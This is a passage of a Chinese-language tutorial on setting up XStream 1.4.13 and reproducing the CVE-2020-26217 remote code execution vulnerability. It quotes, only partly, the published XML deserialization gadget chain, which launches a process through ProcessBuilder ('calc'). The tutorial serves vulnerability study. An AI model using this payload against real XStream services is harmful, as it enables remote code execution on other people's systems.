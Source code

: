 ## 前言

Xstream是一个基于java语言的xml操作类库，同时也是Java对象和XML相互转换的工具，提供了所有的基础类型、数组、集合等类型直接转换的支持。因此XML常用于数据交换、对象序列化。本文将从Xstream的环境搭建到CVE-2020-26217远程代码执行漏洞的复现分析做一个记录。

## 环境准备

本地环境：idea+jdk8.0

idea新建一个maven项目

![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091002127-1197979010.png)

在pom.xml文件中添加如下依赖

![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091018506-1029468659.png)

接着右键maven->Reimport下载导入Xstream1.4.13

![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091028932-2031908005.png)

新建一个demo类来方便调试

```java
import com.thoughtworks.xstream.XStream;

public class XstreamDemo {
    public static void main(String[] args){
        String xml = "<map>poc</map>";
        XStream xstream = new XStream();
        xstream.fromXML(xml);
    }
}
```

## 复现分析

在Xstream的官网已经发布了官方的poc,链接：https://x-stream.github.io/CVE-2020-26217.html

内容如下：

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
```